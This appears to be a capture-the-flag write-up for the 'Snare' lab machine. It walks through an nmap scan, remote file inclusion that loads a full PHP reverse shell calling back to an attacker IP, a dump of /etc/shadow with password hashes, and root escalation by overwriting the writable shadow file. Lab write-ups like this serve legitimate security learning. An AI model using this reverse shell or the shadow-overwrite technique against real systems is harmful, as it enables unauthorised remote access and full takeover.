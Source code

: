 ![image](https://user-images.githubusercontent.com/87468669/204126974-8404620b-08e5-44cc-9fc2-7004dedf7733.png)

First we start with an nmap scan
`nmap -sC -sV -T4 -oN nmap.txt`

```
# Nmap 7.93 scan initiated Sat Nov 19 21:22:26 2022 as: nmap -sC -sV -T4 -oN quicknmap.txt -Pn 10.150.150.18
Nmap scan report for 10.150.150.18
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 2f0e73d4ae73147ec51c1584ef45a4d1 (RSA)
|_  256 390b0bc986c98eb52b0c39c763ece210 (ECDSA)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Welcome to my homepage!
|_Requested resource was /index.php?page=home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 19 21:22:58 2022 -- 1 IP address (1 host up) scanned in 31.80 seconds
```

we have port 22 (ssh) and 80 (http) opened, let's enumerate http first.

![image](https://user-images.githubusercontent.com/87468669/204127066-98c6d6cf-be6c-48ea-a3a0-aff5f87e117f.png)

sweet!!!, we have a parameter, let's test for rfi (remote file inclusion). first we create a reverse shell.php file.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.66.67.146';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![image](https://user-images.githubusercontent.com/87468669/220051355-306405fd-3350-40a0-91ea-7a2172900566.png)

fireup python http server and ncat listener, then go to the browser and try download the file into the target 

![image](https://user-images.githubusercontent.com/87468669/220052511-018c860c-0dff-4c51-803b-8fe130b06d4a.png)

download the file through the url parameter as `shell` it automatically add `.php` to the end.

![image](https://user-images.githubusercontent.com/87468669/220052709-70e69e91-5de3-42da-8716-12d33fc39200.png)

Boom!!! we got a reverse shell. now let'ss escalate privs.


## Privilege Escalation

```
www-data@snare:/var/www/html/includes$ find /etc -type f -writable 2>/dev/null
/etc/shadow
www-data@snare:/var/www/html/includes$ ls -al /etc/shadow
-rwxrwxrwx 1 root shadow 1129 Nov 20  2020 /etc/shadow
www-data@snare:/var/www/html/includes$ cat /etc/shadow
root:$6$b8wkwLbICzuTqPiO$dFLYb8ZNEpfGLRnvODlyGfjtZQTV85FJCDCBGiZEU9b3laym9RJo144xkYEldB419O1Q3E5FARrKRRn/LrtZc0:18586:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
sys:*:18474:0:99999:7:::
sync:*:18474:0:99999:7:::
games:*:18474:0:99999:7:::
man:*:18474:0:99999:7:::
landscape:*:18474:0:99999:7:::
pollinate:*:18474:0:99999:7:::
sshd:*:18579:0:99999:7:::
systemd-coredump:!!:18579::::::
snare:$6$H64MOvr/bVP1M3TM$ITTpmiB7QNgv7EARjOcIMgeBvbCXlDOU5LqjA7q0ivXWhevk7HbatblgH7Yc1y8aUo0pnASOhJgjWRlGMsusu/:18586:0:99999:7:::
lxd:!:18579::::::
```

after playing around for sometime, we found out that the `etc/shadow` file is writable. Let's exploit this priv
Knowing that we can write to this file, let’s create a password hash that we control. While all we need to do is generate a SHA-512 hash, we can actually use a pre-installed utility called mkpasswd to generate one for us.
mkpasswd -m sha-512 "hacked"

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/pwntilldawn/snare]
└─$ mkpasswd -m sha-512 hacked
$6$OVBq072zKPY/QEwL$wf9r2CipI85YKYdgpI6dcRbTyYegsBV8hBtXYFVGvMyIkM80X5TCikzskSz.vTXGH7Ike6BSUQ7nbaUMCMJzZ1
```

Copy the hash that gets generated, and lets go edit the /etc/shadow file. `nano /etc/shadow`

![image](https://user-images.githubusercontent.com/87468669/220056717-c5a3c095-b14c-4826-a440-4215e61f6210.png)

Once the file has been changed, you can now switch to the root user using the password you passed to the mkpasswd command.
`su root`

![image](https://user-images.githubusercontent.com/87468669/220057081-48e0647e-a0a3-4f41-add4-779fb8ac3fe3.png)

Bull's eye and we got root.

